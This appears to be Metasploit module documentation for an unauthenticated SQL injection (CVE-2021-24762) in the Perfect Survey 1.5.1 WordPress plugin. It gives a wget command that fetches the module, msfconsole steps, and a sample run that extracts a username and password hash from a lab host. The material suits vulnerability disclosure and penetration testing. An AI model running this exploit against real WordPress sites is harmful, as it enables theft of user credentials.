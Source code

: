 ## Vulnerable Application

Perfect Survey, a WordPress plugin, version 1.5.1 is affected by an unauthenticated SQL injection vulnerability
via the `question_id` parameter.

An unauthenticated attacker can exploit this SQL injection vulnerability to retrieve sensitive information,
such as usernames and password hashes, from the `wp_users` table.

The vulnerable plugin can be downloaded from the [WordPress plugin repository](https://wordpress.org/plugins/).
The specific vulnerable version can be found here: https://www.exploit-db.com/apps/51c80e6262c3a39fa852ebf96ff86b78-perfect-survey.1.5.1.zip

## Verification Steps

1. Install the WordPress application and the vulnerable version of the Perfect Survey plugin.
2. Copy the exploit into the specified Metasploit directory:
```sh
wget https://raw.githubusercontent.com/aaryan-11-x/My-Metasploit-Modules/refs/heads/main/CVE-2021-24762%3A%20WordPress%20Plugin%20Perfect%20Survey%201.5.1%20-%20SQLi%20(Unauthenticated)/wp_perfect_survey_sqli.rb -O /usr/share/metasploit-framework/modules/auxiliary/scanner/http/wp_perfect_survey_sqli.rb
```

3. Start `msfconsole`.
4. Run: `use auxiliary/scanner/http/wp_perfect_survey_sqli`.
5. Set the target host: `set RHOSTS [ip]`.
6. Adjust other options as necessary, such as `TARGETURI` (default is `/`).
7. Execute the module: `run`.
8. The module should retrieve usernames and password hashes from the WordPress installation.

## Options

### SHOW_FULL_RESPONSE
If set to `true`, the module will print the entire JSON response received from the server when username and password hash extraction fails.
Default is `false`.

## Scenarios

### WordPress with Perfect Survey Plugin 1.5.1 on Ubuntu 20.04

#### Example

```sh
msf6 > use auxiliary/scanner/http/wp_perfect_survey_sqli
[*] Using auxiliary/scanner/http/wp_perfect_survey_sqli
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set RHOSTS 192.168.1.104
RHOSTS => 192.168.1.104
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set RPORT 8000
RPORT => 8000
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > exploit 
[*] Running module against 192.168.1.104

[*] Exploiting SQLi in Perfect Survey plugin...
[+] Received a response from the server!
[+] Extracted Username: aaryan
[+] Extracted Password Hash: $P$BroxbUQTM0N32U7JeMmkXPJrxN9ErZ1
[*] Auxiliary module execution completed
```

#### Video POC

https://github.com/user-attachments/assets/b1fc7196-7b29-4370-a448-c4bf3247e6aa

